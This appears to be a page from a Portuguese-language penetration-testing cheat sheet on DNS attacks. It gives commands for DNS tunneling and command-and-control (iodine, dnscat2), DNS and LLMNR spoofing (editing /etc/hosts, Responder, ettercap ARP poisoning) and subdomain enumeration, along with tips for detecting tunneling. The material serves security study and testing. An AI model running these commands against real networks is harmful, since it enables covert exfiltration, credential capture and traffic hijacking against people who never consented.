 **3. DNS Tunneling (Data Exfiltration)**

Esconder dados em queries/respostas DNS.

```bash
# iodine - túnel IP sobre DNS
# Servidor (requer domínio próprio)
sudo iodined -f 10.0.0.1 tunnel.example.com

# Cliente
sudo iodine -f tunnel.example.com

# dnscat2 - C2 sobre DNS
# Servidor
ruby dnscat2.rb tunnel.example.com

# Cliente
./dnscat2 tunnel.example.com

# Detecção:
# - Queries longas e incomuns
# - Alto volume de queries para mesmo domínio
# - Entropy analysis
# - TXT/NULL records

# Detectar DNS tunneling
sudo tcpdump -i eth0 'udp port 53' -v | grep -E 'length > 100'

# Análise de entropy (dados aleatórios = possível exfiltração)
tshark -r capture.pcap -Y dns -T fields -e dns.qry.name | \
    while read line; do echo "$line $(echo -n "$line" | ent)"; done
```

**4. DNS Spoofing/Hijacking**

```bash
# Local - modificar /etc/hosts
echo "93.184.216.34 facebook.com" | sudo tee -a /etc/hosts

# Rede - responder (LLMNR/NBT-NS/MDNS poisoning)
sudo responder -I eth0 -wrf

# ARP + DNS spoofing
sudo ettercap -T -M arp:remote /192.168.1.1// /192.168.1.100// \
    -P dns_spoof

# Arquivo de DNS spoof do ettercap: /etc/ettercap/etter.dns
example.com A 192.168.1.50
*.example.com A 192.168.1.50
```

**5. DNS Enumeration (Reconhecimento)**

```bash
# Zone transfer (AXFR) - se mal configurado
dig @ns1.example.com example.com AXFR

# Brute force de subdomínios
dnsrecon -d example.com -t brt -D subdomains.txt

# Fierce
fierce --domain example.com

# Amass (completo)
amass enum -d example.com

# DNSdumpster (online)
```